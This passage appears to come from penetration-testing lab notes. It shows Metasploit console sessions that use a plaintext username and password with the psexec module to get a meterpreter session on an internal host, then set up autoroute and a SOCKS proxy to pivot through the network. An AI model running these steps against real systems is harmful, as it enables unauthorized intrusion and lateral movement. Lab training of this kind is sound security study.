 ```bash

[*] There are currently no IPv6 routes defined.
```

Using credentials to pivot through our route:

```bash
msf6 auxiliary(scanner/portscan/tcp) > use exploit/windows/smb/psexec 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf6 exploit(windows/smb/psexec) > set SMBUser luiza
SMBUser => luiza

msf6 exploit(windows/smb/psexec) > set SMBPass "BoccieDearAeroMeow1!"
SMBPass => BoccieDearAeroMeow1!

msf6 exploit(windows/smb/psexec) > set RHOSTS 172.16.5.200
RHOSTS => 172.16.5.200

msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp

msf6 exploit(windows/smb/psexec) > set LPORT 8000
LPORT => 8000

msf6 exploit(windows/smb/psexec) > run
```

Automated route creation:

```bash
# This requires us to remove our route.
msf6 exploit(windows/smb/psexec) > use multi/manage/autoroute
msf6 exploit(windows/smb/psexec) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information            Connection
  --  ----  ----                     -----------            ----------
  12         meterpreter x64/windows  ITWK01\luiza @ ITWK01  192.168.119.4:443 -> 127.0.0.1 ()

msf6 post(multi/manage/autoroute) > set session 12
session => 12

msf6 post(multi/manage/autoroute) > run
```

Combining routes with the _server/socks\_proxy_ auxiliary module to configure a SOCKS proxy. This allows applications outside of the MSF to tunnel through the pivot on port 1080 by default:

```bash
msf6 post(multi/manage/autoroute) > use auxiliary/server/socks_proxy 

msf6 auxiliary(server/socks_proxy) > show options

Module options (auxiliary/server/socks_proxy):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT   1080             yes       The port to listen on
   USERNAME                   no        Proxy username for SOCKS5 listener
   VERSION   5                yes       The SOCKS version to use (Accepted: 4a, 5)

```